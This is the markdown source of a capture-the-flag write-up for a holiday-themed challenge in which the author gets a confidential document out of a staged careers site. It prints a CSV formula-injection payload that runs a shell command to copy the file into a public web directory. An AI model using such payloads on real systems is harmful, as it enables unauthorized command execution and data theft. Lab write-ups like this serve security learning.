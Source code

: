 ```yaml
---
layout: objective
title: "HR Incident Response"
#date: 2018-12-03
number: "7"
#image: "obj.2/obj.2.challenge.md"

images: []
question: "Santa uses an Elf Resources website to look for talented information security professionals. Gain access to the website and fetch the document C:\\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with K. For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge."
images: ["1.png","2.png","answer.png","question.png"]
narrative: "5"
elf-name: "Sparkle Redberry"
elf-terminal: "Dev Ops Fail"
elf-directory: "sparkle"
tags: [sample post, readability, test]
comments: false
image-dir: /assets/img/objectives/7
links: ["https://careers.kringlecastle.com/"]
answer: "Fancy Beaver "
---
```



The link takes us to the career website.
<figure>
	<img src="/assets/img/objectives/7/1.png">
	<figcaption>Career Site</figcaption>
</figure>

Entering a dummy CSV, I find this error message

<figure>
	<img src="/assets/img/objectives/7/2.png">
	<figcaption>Error Message</figcaption>
</figure>

I crafted a command that would copy the file to the publically accessible area:

```
=cmd|'/c copy c:/\candidate_evaluation.docx c:\careerportal\resources\public\stolen.docx'!A1
```

<figure>
	<img src="/assets/img/objectives/7/3.png">
	<figcaption>Error Message</figcaption>
</figure>

It shows the Job Applicant who starts with "k"
<figure>
	<img src="/assets/img/objectives/7/4.png">
</figure>
<figure>
	<img src="/assets/img/objectives/7/5.png">
	<figcaption>The Applicant</figcaption>
</figure>
